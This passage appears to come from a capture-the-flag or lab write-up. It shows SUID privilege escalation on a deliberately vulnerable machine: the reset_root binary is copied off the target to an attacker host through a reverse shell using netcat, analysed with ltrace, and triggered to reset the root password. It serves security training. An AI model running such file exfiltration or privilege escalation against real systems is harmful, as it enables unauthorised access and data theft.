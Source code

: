 ![suid.png](/portfolio/suid.png)
*Figure 13: Files and directories with SUID Permission set*


An interesting find is the **/usr/bin/reset_root** file. 

We can try to run it using this command:

```bash
./usr/bin/reset_root
```

After running it we get the following message: 
*CHECKING IF RESET TRIGGERS PRESENT...*
*RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.*

We can take a look at the content of the file using cat but after opening it we just get some symbols and characters since it is an executable. We can prove that by running: 

```bash
file /usr/bin/reset_root
```

We can use **ltrace** to observe its behavior and potentially find the library calls this executable makes. Unfortunately this command is not installed on the the vulnerable machine. Hence we need to tranfer the file with netcat to our kali linux machine to further analyse it. 

On the kali linux machine we start a listener on a different port: 

```bash
nc -lvnp 5555 > reset_root
```

On the reverse shell we run: 
```bash
nc 10.38.1.114 5555 < /usr/bin/reset_root
```

To use the **ltrace** command we need to change the permissions:

```bash
chmod 777 reset_root
```

```bash
ltrace ./reset_root
```


After running this command we get the following result: 

![ltrace.png](/portfolio/ltrace.png)
*Figure 14: Library Calls of reset_root*


As we can see the executable is trying to access the files which are not persistent. All we need to do now is to create the files with the **touch** command. After doing so we can run the file again. We now get the following result: 

*CHECKING IF RESET TRIGGERS PRESENT...*                                                                               
*RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth*  
